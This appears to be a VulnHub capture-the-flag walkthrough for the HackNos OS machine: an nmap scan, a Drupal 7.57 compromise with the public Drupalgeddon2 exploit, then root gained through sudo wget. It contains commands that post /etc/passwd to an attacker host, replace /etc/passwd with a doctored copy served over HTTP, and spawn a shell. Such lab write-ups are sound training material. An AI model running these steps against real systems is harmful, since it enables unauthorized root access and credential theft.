








Here is the professional documentation with the screenshots included:

---

## HackNos OS VulnHub Walkthrough

**VulnHub Link:** [HackNos OS](https://www.vulnhub.com/entry/hacknos-os-hacknos,401/)

---

### Step 1: Initial Nmap Scan

We began with a full Nmap scan to identify open ports and services on the target machine:

```bash
nmap -T4 -p- -A 192.168.1.26
```

After identifying key services, we narrowed the scan:

```bash
nmap -T4 -p 80,22 -A 192.168.1.26
```

**Nmap Results:**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 22:27 EDT
Nmap scan report for 192.168.1.26
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We discovered:
- **SSH** running on port 22
- **Apache** on port 80

---

### Step 2: Identifying Drupal Vulnerability

We browsed the web server and discovered it was running **Drupal 7.57**, a version known to be vulnerable. We confirmed the version by visiting:

```
http://192.168.1.26/drupal/profiles/testing/testing.info
```



---

### Step 3: Exploiting with Drupalgeddon2

Using the **Drupalgeddon2** exploit available on GitHub, we managed to exploit the vulnerability:

**GitHub Exploit:** [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)



---

### Step 4: Gaining Access to `user.txt`

After successfully exploiting the system, we navigated to the `james` folder and found a `user.txt` file containing an MD5 hash. This file could be cracked using **Hashcat**:



---

### Step 5: Running linpeas.sh for Privilege Escalation

Before proceeding, I executed `linpeas.sh` to identify privilege escalation vectors. The script revealed that **wget** can be run as root, which gave us a clear path for exploitation:


---

### Step 6: Exploiting `/etc/passwd`

To escalate privileges, I first exported the `/etc/passwd` file to my local attacker machine:

```bash
/usr/bin/wget --post-file=/etc/passwd 192.168.1.30
```



---

### Step 7: Editing `/etc/passwd`

On my local machine, I added a new user with root privileges. I generated the password hash using the following command:

```bash
openssl passwd -1 -salt 123 pass123
$1$123$hbJRtWw9J.EKnGFIfx2OQ1
```



---

### Step 8: Hosting the Modified `passwd` File

I then hosted the modified `passwd` file on my local machine and hosted the file to export back to the vitcim machine using Python's HTTP server:

```bash
python3 -m http.server 80
```



---

### Step 9: Downloading and Replacing `/etc/passwd` on the Target

On the victim machine, I replaced the original `passwd` file with the modified one by using **wget**:

```bash
wget http://192.168.1.30/passwd -O /etc/passwd
```



---

### Step 10: Spawning a Shell and Getting Root Access

Before attempting to switch users, I spawned an interactive shell using:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

or alternatively:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Finally, I switched to the just created user using the `su` command:

```bash
su pwn_root
```

This gave me full root access, and I retrieved the second flag.



